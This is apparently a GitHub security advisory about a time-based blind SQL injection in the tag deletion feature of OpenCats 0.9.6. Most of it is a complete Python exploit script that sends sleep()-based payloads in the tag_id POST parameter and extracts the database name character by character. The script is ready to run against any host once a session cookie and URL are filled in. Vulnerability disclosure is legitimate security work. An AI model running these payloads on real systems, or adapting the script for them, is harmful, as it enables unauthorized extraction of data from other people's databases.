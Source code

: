# SQL injection vulnerability in OpenCats 'Tag' deletion functionality.

OpenCats version 0.9.6 PHP7.2 suffers from SQL injection vulnerability. This allows attackers control over the application's database.

User has control over tagID variable, which allows SQL injection in DELETE statement via time-based/blind techniques.

PoC:
![1](https://user-images.githubusercontent.com/57464251/193554662-3ff9fd88-a6fd-46c6-be8e-d6ff32f7fb11.png)

![2](https://user-images.githubusercontent.com/57464251/193554677-ff4fbf7d-fd69-4e56-9da7-81875ae88b95.png)

![3](https://user-images.githubusercontent.com/57464251/193554689-d1aed402-e78d-4202-ab8b-f354df33cbf7.png)

![4](https://user-images.githubusercontent.com/57464251/193554697-20965e88-df36-4e9b-be18-ce92f1ed08ce.png)

![5](https://user-images.githubusercontent.com/57464251/193554702-419d861b-6a3d-4de4-b70d-81964d7cc23b.png)

tagID variable is vulnerable.
Similar query is build by application:
`DELETE FROM tag WHERE(tag_id = XXX OR tag_parent_id = 1) AND site_id = 1;`

User can control XXX part. By asking many yes/no questions to the database user can differentiate between true and false statements.
Using time-based blind technique attacker can exfiltrate data from entire database.

### PoC example: 
exfiltrate result of database() query:

https://user-images.githubusercontent.com/57464251/193555221-19bdd56f-f11c-425c-ac73-8dddaf3b9078.mp4

# xploit.py
```python
import requests
import string
import sys

def inRange(rTime, averageTime, sleepAmount):
    if(rTime > sleepAmount and rTime < rTime + (averageTime*20/100) and rTime > rTime - (averageTime*20/100)):
        return True
    else: return False

headers = {}
proxies = {}
#proxies["http"] = "http://127.0.0.1:8080"

#Login and get session cookie..
#Change this
headers["Cookie"] = "CATS=cl2201l24aihqlnch0jgnr4pd2"
url = "http://192.168.203.135/opencats/index.php?m=settings&a=ajax_tags_del"

#Prepare Content-Type for POST request compability
headers["Content-Type"] = "application/x-www-form-urlencoded"
#Prepare POST parameter 'tag_id'
postdata = "tag_id=PWN"

tempPayload = "1 OR 1=(sleep(3))"

print("Sending few request to determine average response time...")

timeSum = 0
numberOfBaselineRequests = 5
for i in range(numberOfBaselineRequests):
    try:
        rTest = requests.post(url, headers = headers, data=postdata.replace('PWN','1337'), proxies = proxies) 
        timeSum  += rTest.elapsed.total_seconds()
        if('<form name="loginForm"' in rTest.text):
            print("Session cookie not valid, change it inside .py")
            sys.exit(-1)
        print("Iteration: " + str(i+1) + ". Response time in seconds: " + str(rTest.elapsed.total_seconds()))
    except:
        print("Some exception ocurred while sending or receiving data from the application. Make sure IP is good. Exiting..")
        sys.exit(-1)

averageTime = timeSum/numberOfBaselineRequests
print("Average response time for " + str(numberOfBaselineRequests) + " requests is : " + str(averageTime))

print("\nTrying to inject sleep(3)")
r = requests.post(url, headers = headers, data = postdata.replace('PWN',tempPayload), proxies = proxies)
rTime = r.elapsed.total_seconds()
print("Response time: " + str(rTime))

if(inRange(rTime, averageTime, 3)):
    print("\n[+] Application is vulnerable to SQL injection...")

#Getting value for false statement -> sleep(1)
tempPayload2 = "1 or 1=(sleep(0.1))"
r2 = requests.post(url, headers = headers, data = postdata.replace('PWN',tempPayload2), proxies = proxies)
t_sleep_one = r2.elapsed.total_seconds()

tempPayload3 = "1 or 1=(sleep(0.3))"
r3 = requests.post(url, headers = headers, data=postdata.replace('PWN', tempPayload3), proxies = proxies)
t_sleep_three = r3.elapsed.total_seconds()

print("False statement time: " + str(t_sleep_one))
print("True statement time: " + str(t_sleep_three) + "\n")

length = 0
exfilQuery = "1 OR 1=(IF(length(database())='XXX',sleep(0.3),sleep(0.1)))"
#Determine length of the result that we want. i.e database() function..
while(True):
    q = exfilQuery.replace('XXX', str(length))
    r = requests.post(url, headers = headers, data = postdata.replace('PWN', q))
    time = r.elapsed.total_seconds()
        
    print("Length : " + str(length) + ". Time: " + str(time))

    #If sleep(3) gets executed, we have correct length
    if(time > (t_sleep_one+(t_sleep_one*20/100))):
        print("Got length " + str(length))
        break
    
    length += 1
    if(length == 1000):
        break
    
if(length == 0 or length == 1000):
    print("Something is wrong. Exiting...")
    sys.exit(-1)
else: print("Length of 'database()' query: " + str(length))

#OK----|
alphanumerics = list(string.ascii_lowercase + string.ascii_uppercase + string.digits)
exfilQuery = "1 OR 1=(IF(substr(database(),YYY,1) = 'XXX',sleep(0.3), sleep(0.1)))"

data = []
for i in range(length):
    for item in alphanumerics:
        q = exfilQuery.replace('XXX',str(item))
        q = q.replace('YYY',str(i+1))
        print(q)
        r = requests.post(url, headers = headers, data = postdata.replace('PWN',q), proxies = proxies)
        time = r.elapsed.total_seconds()
        print(str(time) + "\n")
        if(time > (t_sleep_one+(t_sleep_one*20/100))):
            print(str(i+1) + ". Letter = " + item)
            data.append(item)
            break

print("database() -> " + "".join(data))
```

